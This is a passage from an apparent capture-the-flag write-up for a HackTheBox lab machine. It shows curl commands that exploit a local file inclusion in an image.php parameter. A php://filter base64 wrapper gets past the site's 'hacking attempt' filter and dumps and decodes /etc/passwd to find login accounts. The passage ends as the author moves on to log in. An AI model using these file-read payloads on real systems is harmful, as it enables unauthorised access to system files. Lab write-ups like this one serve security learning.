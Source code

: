 ## Dumping passwd

By using the img parameter and fuzzing I get some responses with 25 chars. This tells us the web server is responding with something. Let's try and grab the passwd file:

```sh
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=/etc/passwd'
Hacking attempt detected!
```

Ok so we're getting somewhere. Next we need to try and bypass that filter. I used [this](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter) which is something I used on the BountyHunter box [here](https://pencer.io/ctf/ctf-htb-bountyhunter/#base64-encoded-payload):

```sh
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd'                               
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaAp
NyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9ia
czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDx
<SNIP>
```

This worked and the response is base64 encoded so we can decode and use grep to just give us the accounts that can logon:

```sh
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd' | base64 -d | grep -vw nologin
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2152  100  2152    0     0  36140      0 --:--:-- --:--:-- --:--:-- 36474
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
lxd:x:105:65534::/var/lib/lxd/:/bin/false
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```

## Simple WebApp Login

We have a user called aaron. Going back to that initial login box we saw earlier, now with a username it was simple to login:
